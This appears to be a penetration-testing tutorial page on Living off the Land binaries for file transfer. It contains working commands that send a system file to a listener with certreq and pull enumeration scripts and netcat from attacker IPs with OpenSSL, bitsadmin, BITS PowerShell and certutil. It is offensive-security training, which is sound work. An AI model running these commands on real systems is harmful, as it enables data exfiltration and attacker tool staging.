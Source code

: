 The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

### LOLBAS
To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`
![LOLBAS project page listing binaries like CertReq.exe with functions and ATT&CK techniques.](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.
```bash
# This will send the file to our Netcat session, and we can copy-paste its contents.
certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```
>If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

![GTFObins page listing Unix binaries with functions like file upload and download, and associated ATT&CK techniques.](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.
```bash
# our Pwnbox
## Create Certificate in our Pwnbox
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out  certificate.pem
## Stand up the Server in our Pwnbox
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

# Download File from the Compromised Machine
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

### Other Common Living off the Land tools
#### Bitsadmin Download function
The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.
```bash
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```
PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.
```bash
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
#### Certutil
can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique,
```bash
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
